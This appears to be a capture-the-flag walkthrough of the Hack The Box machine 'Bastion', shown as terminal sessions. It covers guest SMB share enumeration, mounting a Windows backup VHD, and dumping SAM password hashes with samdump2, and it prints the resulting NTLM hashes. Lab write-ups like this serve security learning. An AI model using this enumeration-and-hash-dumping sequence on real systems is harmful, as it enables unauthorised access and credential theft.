

# 10 - SMB


# Guest login
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion]
└──╼ $ cme smb 10.10.10.134 -u 'guest' -p '' --shares
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\guest: 
SMB         10.10.10.134    445    BASTION          [+] Enumerated shares
SMB         10.10.10.134    445    BASTION          Share           Permissions     Remark
SMB         10.10.10.134    445    BASTION          -----           -----------     ------
SMB         10.10.10.134    445    BASTION          ADMIN$                          Remote Admin
SMB         10.10.10.134    445    BASTION          Backups         READ            
SMB         10.10.10.134    445    BASTION          C$                              Default share
SMB         10.10.10.134    445    BASTION          IPC$                            Remote IPC
```


# Backups share
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion]
└──╼ $ find /mnt/bastion/ -type f -ls
2251799813686578      1 -r-xr-xr-x   1 root     root          116 Apr 16  2019 /mnt/bastion/note.txt
1407374883651048      0 -rwxr-xr-x   1 root     root            0 Feb 22  2019 /mnt/bastion/SDT65CB.tmp
1125899906940401  36876 -rwxr-xr-x   1 root     root     37761024 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
 844424930229746 5291308 -rwxr-xr-x   1 root     root     5418299392 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
 844424930229756       4 -rwxr-xr-x   1 root     root           1186 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/BackupSpecs.xml
 844424930229755       4 -rwxr-xr-x   1 root     root           1078 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
 844424930229757      12 -rwxr-xr-x   1 root     root           8930 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
 844424930229754       8 -rwxr-xr-x   1 root     root           6542 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
 844424930229748       4 -rwxr-xr-x   1 root     root           2894 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
 844424930229749       4 -rwxr-xr-x   1 root     root           1488 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
 844424930229752       4 -rwxr-xr-x   1 root     root           1484 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
 844424930229753       4 -rwxr-xr-x   1 root     root           3844 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
 844424930229750       4 -rwxr-xr-x   1 root     root           3988 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
 844424930229751       8 -rwxr-xr-x   1 root     root           7110 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
 844424930229747    2320 -rwxr-xr-x   1 root     root        2374620 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
1125899906940397       8 -rwxr-xr-x   1 root     root           5698 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Catalog/BackupGlobalCatalog
 844424930229759       8 -rwxr-xr-x   1 root     root           7440 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/Catalog/GlobalCatalog
1407374883651051       4 -rwxr-xr-x   1 root     root             16 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/MediaId
1125899906940414      60 -rwxr-xr-x   1 root     root          57848 Feb 22  2019 /mnt/bastion/WindowsImageBackup/L4mpje-PC/SPPMetadataCache/{cd113385-65ff-4ea2-8ced-5630f6feca8f}
```


# File types
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/bastion/WindowsImageBackup/L4mpje-PC]
└──╼ $ find . -type f -exec file  {} \;
./Backup 2019-02-22 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd: Microsoft Disk Image, Virtual Server or Virtual PC, Creator vsim 1.1 (W2k) Fri Feb 22 12:44:00 2019, 104970240 bytes, CHS 1005/12/17, State 0x1
./Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd: Microsoft Disk Image, Virtual Server or Virtual PC, Creator vsim 1.1 (W2k) Fri Feb 22 12:44:01 2019, 15999492096 bytes, CHS 31001/16/63, State 0x1
./Backup 2019-02-22 124351/BackupSpecs.xml: data
./Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml: data
./Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml: data
./Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml: data
./Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml: data
./Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml: data
./Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml: data
./Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml: data
./Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml: data
./Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml: data
./Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml: data
./Catalog/BackupGlobalCatalog: data
./Catalog/GlobalCatalog: data
./MediaId: data
./SPPMetadataCache/{cd113385-65ff-4ea2-8ced-5630f6feca8f}: data
```

VHD files are the snapshot of the whole file system. If we can mount it, we can potentially dump hashes from SAM database.

# Mounting VHD
```
┌─[user@parrot]─[10.10.14.18]─[/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└──╼ $ guestmount -a '9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd' -m /dev/sda1 --ro ~/htb/bastion/ntfs/
┌─[user@parrot]─[10.10.14.18]─[/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└──╼ $ guestmount -a '9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd' -m /dev/sda1 --ro ~/htb/bastion/ntfs/
```

# Windows File System

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion/ntfs2]
└──╼ $ ls -l --color=never
total 2096729
drwxrwxrwx 1 root root          0 Feb 22  2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 Jun 11  2009  autoexec.bat
-rwxrwxrwx 1 root root         10 Jun 11  2009  config.sys
lrwxrwxrwx 2 root root         14 Jul 14  2009 'Documents and Settings' -> /sysroot/Users
-rwxrwxrwx 1 root root 2147016704 Feb 22  2019  pagefile.sys
drwxrwxrwx 1 root root          0 Jul 14  2009  PerfLogs
drwxrwxrwx 1 root root       4096 Jul 14  2009  ProgramData
drwxrwxrwx 1 root root       4096 Apr 12  2011 'Program Files'
drwxrwxrwx 1 root root          0 Feb 22  2019  Recovery
drwxrwxrwx 1 root root       4096 Feb 22  2019 'System Volume Information'
drwxrwxrwx 1 root root       4096 Feb 22  2019  Users
drwxrwxrwx 1 root root      16384 Feb 22  2019  Windows
```


# SAM dump
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion/ntfs2/Windows/System32/config]
└──╼ $ ls
BCD-Template                                                                                  COMPONENTS.LOG   SAM.LOG        SOFTWARE.LOG2
BCD-Template.LOG                                                                              COMPONENTS.LOG1  SAM.LOG1       SYSTEM
COMPONENTS                                                                                    COMPONENTS.LOG2  SAM.LOG2       SYSTEM.LOG
COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.0.regtrans-ms                            DEFAULT          SECURITY       SYSTEM.LOG1
COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.1.regtrans-ms                            DEFAULT.LOG      SECURITY.LOG   SYSTEM.LOG2
COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.2.regtrans-ms                            DEFAULT.LOG1     SECURITY.LOG1  systemprofile
COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.blf                                      DEFAULT.LOG2     SECURITY.LOG2  TxR
COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TM.blf                                       Journal          SOFTWARE
COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000001.regtrans-ms  RegBack          SOFTWARE.LOG
COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000002.regtrans-ms  SAM              SOFTWARE.LOG1
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion/ntfs2/Windows/System32/config]
└──╼ $ samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```


# L4mpje cracked


Notice the hash starting with `31d6`, its color is green that means it's a blank password. I think it's a way to tell the account is disabled.